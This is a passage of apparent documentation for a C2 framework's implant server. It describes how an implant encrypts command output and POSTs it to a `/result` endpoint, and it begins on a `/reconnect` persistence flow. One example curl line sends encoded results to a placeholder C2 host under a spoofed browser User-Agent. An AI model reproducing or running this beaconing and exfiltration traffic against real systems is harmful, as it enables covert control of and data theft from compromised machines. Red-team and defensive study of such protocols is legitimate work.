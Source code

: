 Explained Flow:
1. Implant executes command and encrypts result (refer to `core/cmdParser.nim`)
2. Implant sends encrypted result to server
3. Server stores result in the database
4. Server confirms successful reception

**Process Flow**:
1. Implant receive a vía `/task` endpoint (refer to `/task` endpoint documentation above)
2. Implant executes the command
2. Results are encrypted using UNIQUE_XOR_KEY with the implant's key memory.
3. Encrypted data is base64 encoded
4. POST request is sent to `/result` endpoint
5. Server:
   - Validates headers and authentication
   - Decrypts the data using the Unique XOR Key
   - Stores the result in the database
   - Updates command status to "completed"
   - Returns 200 on success

**Example CURL**:
```bash
curl -X POST "http://server:port/result" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" \
  -H "Content-Type: application/json" \
  -d '{"data": "<base64_encoded_xor_encrypted_result>"}'
```

**Security Considerations**:
- All results are encrypted using the implant's unique XOR key
- Base64 encoding prevents null bytes from breaking HTTP communication
- Headers are validated to ensure proper authentication
- Results are stored securely in the database
- Command status is updated to prevent duplicate submissions

**Error Handling**:
- Invalid headers return 400 Bad Request
- Authentication failure returns 401 Unauthorized
- Invalid GUID returns 404 Not Found
- Server errors return 500 Internal Server Error
---------------------------------------------------------------------------------------------

## Implant Reconnection Flow (How an Implant exchange UNIQUE_XOR_KEY with C2 if process restart or a system reboots happens) - Implant Server

### 1. Reconnect Endpoint (`/reconnect`)

**Purpose**: Handles reconnection of existing implants and provides communication persistence mechanism.

**Methods**: 
- OPTIONS: Reconnection request
